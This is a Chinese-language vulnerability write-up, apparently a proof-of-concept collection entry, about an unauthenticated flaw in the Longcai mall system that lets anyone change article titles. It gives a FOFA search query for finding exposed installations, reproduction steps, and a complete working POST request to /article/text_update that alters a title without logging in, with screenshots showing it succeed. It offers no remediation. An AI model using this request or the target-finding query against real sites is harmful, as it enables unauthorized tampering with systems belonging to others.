 # 龙采商城系统存在未授权修改文章title

### 一、漏洞描述
龙采科技集团有限责任公司龙采商城系统后台未授权修改文章title，可直接无需登录后台后即可修改文章title。

### 二、影响版本
龙采商城系统

### 三、资产测绘
FOFA：body="'url':'/pc2.0/index/index'"

### 四、漏洞复现
<font style="color:black;background-color:#FFFFFF;">来到帮助中心，随机找一个分类标题，F12查看其article_id记录下来，替换掉POC里的id值，请求POC，更改data内容（建议以原来title内容+1作为区分，攻击后记得改回来），刷新页面发现标题已经被更改！</font>![1715916930434-01af42c1-1705-4129-bce4-57431e8393ec.png](./img/pw7d7qCzBp2HBEtJ/1715916930434-01af42c1-1705-4129-bce4-57431e8393ec-209105.png)

```plain
POST /article/text_update HTTP/2
Host: xxx
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:123.0) Gecko/20100101 Firefox/123.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 39

id=77&parameter=title&data=常见问题1
```

![1715917138219-9cb3910f-288b-4aa9-b705-aea33fb47217.png](./img/pw7d7qCzBp2HBEtJ/1715917138219-9cb3910f-288b-4aa9-b705-aea33fb47217-081146.png)

刷新以后发现已将"购物流程"修改为"常见问题1"

![1715917093672-79d7e39f-f182-4866-a2ef-8dab2a76b49d.png](./img/pw7d7qCzBp2HBEtJ/1715917093672-79d7e39f-f182-4866-a2ef-8dab2a76b49d-426834.png)

<font style="color:black;background-color:#f0f2f5;"></font>



> 更新: 2024-06-01 11:14:22  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/lvt3fs0uh5qmnvyc>